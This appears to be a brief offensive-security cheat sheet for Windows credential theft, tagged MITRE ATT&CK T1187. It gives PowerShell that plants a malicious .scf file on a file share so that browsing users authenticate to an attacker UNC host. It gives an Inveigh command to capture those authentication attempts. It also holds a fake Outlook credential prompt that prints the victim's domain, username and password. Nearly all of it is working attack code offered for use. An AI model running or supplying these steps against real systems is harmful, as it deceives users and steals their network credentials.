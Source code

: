 # Creat scf File

MITRE ATT&CK Technique: [T1187](https://attack.mitre.org/wiki/Technique/T1187)

  $IPAddress = “192.168.1.1” # unc server
  $Location = “\\FILESERVER\FilesShare” # file server
  "[Shell]" > $Location\~T0P3492.jpg.scf
  "Command=2" >> $Location\~T0P3492.jpg.scf;
  "IconFile=\\$IPAddress\remote.ico" >> $Location\~T0P3492.jpg.scf
  "[Taskbar]" >> $Location\~T0P3492.jpg.scf
  "Command=ToggleDesktop" >> $Location\~T0P3492.jpg.scf

## Run Inveigh to Receive the Authentication Attempts

PS> Invoke-Inveigh -FileOutputDirectory C:\Temp\ -FileOutput Y -HTTP Y -NBNS Y -Tool 1

[Inveigh] (https://github.com/Kevin-Robertson/Inveigh)

## Credential Popper

    $ps = $Host.ui.PromptForCredential("Outlook requires your credentials","Please enter your
    active directory logon details:","$env:userdomain\$env:username","");
    $user = $ps.GetNetworkCredential().username; $domain = $ps.GetNetworkCredential().domain;
    $pass = $ps.GetNetworkCredential().password;
    echo “`nDomain: $domain `nUsername: $user `nPassword: $pass `n”
